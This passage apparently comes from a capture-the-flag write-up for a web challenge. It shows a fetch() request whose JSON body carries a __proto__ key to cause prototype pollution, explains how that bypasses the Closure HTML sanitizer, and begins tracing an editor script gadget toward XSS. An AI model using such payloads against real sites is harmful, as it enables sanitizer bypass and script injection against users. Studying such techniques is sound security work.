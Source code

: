 Therefore, if you send a JSON request which contains `__proto__` key to the `/create` endpoint, you can cause Prototype Pollution in the bio page.

```js
fetch('/create', {
  method:'POST',
  headers: {
    "Content-Type": "application/json",
  },
  body: `{"name":"test","introduction":"","favorites":{"hobbies":"","sports":""}, "__proto__": {"polluted": true}}`
});
```

### Closure sanitizer bypass

To render user supplied HTML in bio introduction, the challenge uses [Closure sanitizer](https://google.github.io/closure-library/api/goog.html.sanitizer.HtmlSanitizer.html). And because [Closure sanitizer can be bypassed with Prototype Pollution](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/#:~:text=my%20challenge.-,Closure,-Closure%20Sanitizer%20has), now you can inject arbitrary attributes in the bio HTML.

However, this does not lead to XSS, as the bio page has Strict CSP and Trusted Types enforced.

### Reviving XSS Auditor primitive

Now that we have Prototype Pollution and HTML injection (with arbitrary attribute control) in hand, what should we do?

In `bootstrap.js`, the `editor` variable looks suspicious.

```js
if (!location.pathname.startsWith('/view/')) {
  ...
  editor = (x=>x)`/static/editor.js`;
}
```

This `editor` variable is used in `main.js` to include an additional script.

```js
import {trustedResourceUrl} from 'safevalues';
import {safeScriptEl} from 'safevalues/dom';

...
function loadEditorResources() {
  ...
  const script = document.createElement('script');
  safeScriptEl.setSrc(script, trustedResourceUrl(editor));
  document.body.appendChild(script);
}

window.addEventListener('DOMContentLoaded', () => {
  render();
  if (!location.pathname.startsWith('/view/')) {
    loadEditorResources();
  }
});
```
